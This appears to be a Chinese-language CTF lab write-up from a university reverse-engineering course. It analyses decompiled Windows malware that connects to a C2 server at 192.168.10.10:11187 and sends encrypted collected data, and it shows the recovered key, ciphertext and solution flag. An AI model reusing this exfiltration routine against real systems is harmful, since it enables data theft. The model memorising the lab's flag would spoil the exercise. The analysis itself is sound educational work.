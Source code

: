 ```yaml
---
title: Simple Reverse - 0x23(2023 Lab - WinMalware - Exfiltrate)
tags: [eductf, CTF, Reverse]

category: "Security/Course/NTU CS/Reverse/WinMalware Lab"
---
```


# Simple Reverse - 0x23(2023 Lab - WinMalware - Exfiltrate)
## Description
> 請根據 next stage payload 的行為，分析 capture.pcapng 中的封包，找出並解密被滲出/傳送到 C2 server 的資料。
## Background
* [WSAStartup](https://learn.microsoft.com/zh-tw/windows/win32/api/winsock/nf-winsock-wsastartup)
* [htons](https://learn.microsoft.com/zh-tw/windows/win32/api/winsock/nf-winsock-htons)
* [socket](https://learn.microsoft.com/zh-tw/windows/win32/api/winsock2/nf-winsock2-socket)
* [sockaddr](https://learn.microsoft.com/zh-tw/windows/win32/winsock/sockaddr-2)
* [WSAConnect](https://learn.microsoft.com/zh-tw/windows/win32/api/winsock2/nf-winsock2-wsaconnect)
## Source Code
* exfiltrate
    :::spoiler source
    ```cpp
    void __fastcall exfiltrate(PUCHAR pbInput)
    {
      __int64 s[2]; // [rsp+28h] [rbp-10h] BYREF

      connect_to_c2(s);
      send_collected_data_to_c2(s[0], pbInput);
      shutdown(s[0], 1);
      closesocket(s[0]);
    }
    ```
    :::
* connect_to_c2
    :::spoiler source
    ```cpp
    void __fastcall connect_to_c2(unsigned __int64 *a1)
    {
      unsigned __int64 v2; // rax
      struct sockaddr name; // [rsp+20h] [rbp-1B8h] BYREF
      struct WSAData WSAData; // [rsp+30h] [rbp-1A8h] BYREF

      if ( !WSAStartup(0x202u, &WSAData) )
      {
        *&name.sa_data[2] = 168470720;
        *name.sa_data = htons(0x2BB3u);
        name.sa_family = 2;
        v2 = socket(2, 1, 6);
        *a1 = v2;
        connect(v2, &name, 16);
      }
    }
    ```
    :::
* send_collected_data_to_c2
    :::spoiler source
    ```cpp
    void __fastcall send_collected_data_to_c2(SOCKET s, PUCHAR pbInput)
    {
      char *v4; // rbx
      int v5; // esi
      int i; // eax
      char v7; // al
      int j; // ecx
      int v9; // eax

      v4 = malloc(0x4Cui64);
      *v4 = 0x11877811;
      *(v4 + 1) = 4;
      *(v4 + 2) = 0;
      if ( send(s, v4, 76, 0) > 0xB )
      {
        v5 = 0;
        while ( v5 <= 2 )
        {
          if ( recv(s, v4, 76, 0) > 0xB && *v4 == 0x11877811 )
          {
            v9 = *(v4 + 2);
            if ( v9 )
            {
              switch ( v9 )
              {
                case 1:
                  *v4 = 0x11877811;
                  *(v4 + 1) = 4;
                  *(v4 + 2) = 1;
                  encrypt_key = (v4 + 12);
                  encrypt_data(pbInput);
                  for ( i = 2; i <= 23; ++i )
                    v4[i + 12] += v4[i + 11] - v4[i + 10];
                  break;
                case 2:
                  *v4 = 0x11877811;
                  *(v4 + 1) = 28;
                  *(v4 + 2) = 2;
                  memcpy_s(v4 + 12, 0x18ui64, cipher, 0x18ui64);
                  break;
                case 3:
                  goto LABEL_20;
              }
            }
            else
            {
              *v4 = 0x11877811;
              *(v4 + 1) = 4;
              *(v4 + 2) = 0;
            }
            for ( j = 0; j <= 39; ++j )
            {
              v7 = v4[j + 36] + v4[43] + v4[49] - v4[67];
              v4[j + 36] = v7;
              v4[j + 36] = v4[54] - (v4[61] + v4[69]) + v7;
            }
            send(s, v4, 76, 0);
            ++v5;
          }
        }
    LABEL_20:
        free(v4);
      }
    }
    ```
    :::
## Recon
1. `connet_to_c2`
    目標是取得c2 server的IP和port number
    1. 先看到#12的socket function，他代表的意思是利用IPv4並且TCP的protocol進行溝通，相關的數值說明都在[MSDN](https://learn.microsoft.com/zh-tw/windows/win32/api/winsock2/nf-winsock2-socket)，可以用前面教到的用m指令改變已知的constant名稱$\to$`v2 = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);`
    2. 接著看到connect function中的`&name`，IDA原本解析成sockaddr，sockaddr是一種通用的結構格式，所以IDA解析出來的東西也沒有問題，不過如果是IPv4又是乙太網路的傳輸，會比較建議把結構改成==sockaddr_in==，[這一篇](https://blog.csdn.net/tao546377318/article/details/72780685)探討了兩者的區別(其實就只是把sockaddr原本的結構擴展而已)，這樣的話整體分析會更好
        :::spoiler 解析後
        ```cpp
        void __fastcall connect_to_c2(unsigned __int64 *a1)
        {
          unsigned __int64 v2; // rax
          struct sockaddr_in name; // [rsp+20h] [rbp-1B8h] BYREF
          struct WSAData WSAData; // [rsp+30h] [rbp-1A8h] BYREF

          if ( !WSAStartup(0x202u, &WSAData) )
          {
            name.sin_addr.S_un.S_addr = 0xA0AA8C0;      // IP: 192.168.10.10
            name.sin_port = htons(11187u);              // Port No.: 11187
            name.sin_family = AF_INET;
            v2 = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
            *a1 = v2;
            connect(v2, &name, 16);
          }
        }
        ```
        :::
    :::info
    IP: 0xA0AA8C0 $\to$ `192.168.10.10`(little endian轉十進位)
    Port: `11187`
    sin.family: IPv4
    Protocol: TCP
    :::
2. `send_collected_data_to_c2`
    1. 先切分程式碼的功能
        ![](https://hackmd.io/_uploads/rkci81Aza.png)
        有時候通靈不一定很準，所以要適時的回頭檢查自己的猜測
    2. 前四行初始化的階段(malloc 0x4c然後塞三個dword)，應該是作者自定義的結構，可以利用Structures，自定義一個新的結構，大小就是0x4C，然後前三個可以定義為dd，並且把v4的結構改成packet(按Y)
        ![](https://hackmd.io/_uploads/ByQtqk0Mp.png)
    3. 各種rename
        * field_0看起來像是一個magic bytes，因為一開始附值之後，傳送過去server，再接收回來的packet也是有做驗證的動作，所以看起來是一個verification magic
        * field_8看起來就是接收來自server下達的command
        * field_C就比較多元，在case 1的時候是當作承接server給的encryption key(大小是8個bytes)，但在case 2是當作加密的cipher(大小是0x18個bytes)，所以我取名`enc_key_or_data`，另外大小是0x18(可以從memcpy的大小看出來)，所以可以按Y改變型別成`char[0x18]`
    :::info
    目前整體的流程
    ![](https://hackmd.io/_uploads/HJJB7gCf6.png)
    ![](https://hackmd.io/_uploads/BkHSXeCM6.png)
    :::
    
    ---
    4. 分析pcap
        這一部就直接對照著講義上截圖或是剛剛分析的封包格式就可以知道哪一個是key哪一個是cipher
        Key: `f0 c7 d3 0e 7f 2c 15 ba`
        Cipher: `43 60 5b 5f 4e ba 9f 9e e3 78 6f 55 cb 81 24 fa e7 bf 0d 1b 3c 24 b7 4e`
        接下來就可以直接用cipherchef的線上功能decrypt其中的內容

:::success
![](https://hackmd.io/_uploads/HJdetgRGp.png)

Flag: `FLAG{C2_cU540m_Pr0t0C01}`
:::